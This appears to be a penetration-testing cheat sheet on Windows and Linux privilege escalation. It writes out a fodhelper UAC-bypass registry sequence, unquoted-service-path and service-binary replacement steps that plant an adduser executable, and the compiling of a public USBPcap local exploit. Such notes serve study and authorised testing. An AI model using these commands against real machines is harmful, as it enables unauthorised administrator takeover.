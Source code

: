 # Privilege Escalation

## Windows

### reference

<https://www.fuzzysecurity.com/tutorials/16.html>

#### lolbas-project.github.io

<https://lolbas-project.github.io/>

#### Sysinterals Suite

<https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite>

### information gathering

```cmd
systeminfo
whoami
net user
net user <username>

```

```powershell
Get-ComputerInfo
```

### UAC bypass

```cmd

Win10 build 1709, 1809 ...
C:\Windows\System32\fodhelper.exe

```cmd
sigcheck.exe -a -m c:\windows\system32\fodhelper.exe

REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```

### file permission

```powershell
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like "Running"}
```

#### space in the path & unclosed quotes

```cmd
C:\Program Files\VMware\VMware Tools\VMwareUser.exe

C:\Program.exe
C:\Program Files\VMware\VMware.exe
```

#### full control file replacement

```bash
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

```cmd
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"

move ServiioService.exe ServiioService.exe.bak
move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"

wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\"

whoami /priv
shutdown /r /t 0
net localgroup administrators
```

### kernel vulnerability

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
driverquery /v
USBPcap
cd "C:\Windows\System32\drivers"
type USBPcap.inf
```

```bash
searchsploit USBPcap
USBPcap 1.1.0.0 (WireShark 2.2.5) - Local Privilege Escalation      |       windows/local/41542.c
i686-w64-mingw32-gcc 41542.c -o 41542.exe
```

## Linux

### reference

<https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>

#### gtfobins.github.io

<https://gtfobins.github.io/>

### general

- 发行版/内核
- 进程
- cron
- 可写目录，文件 /etc/passwd
- SUID
- 用户主目录
- env PATH
- sudo -s / sudo -l
- getcap

## Tips

- linpeas

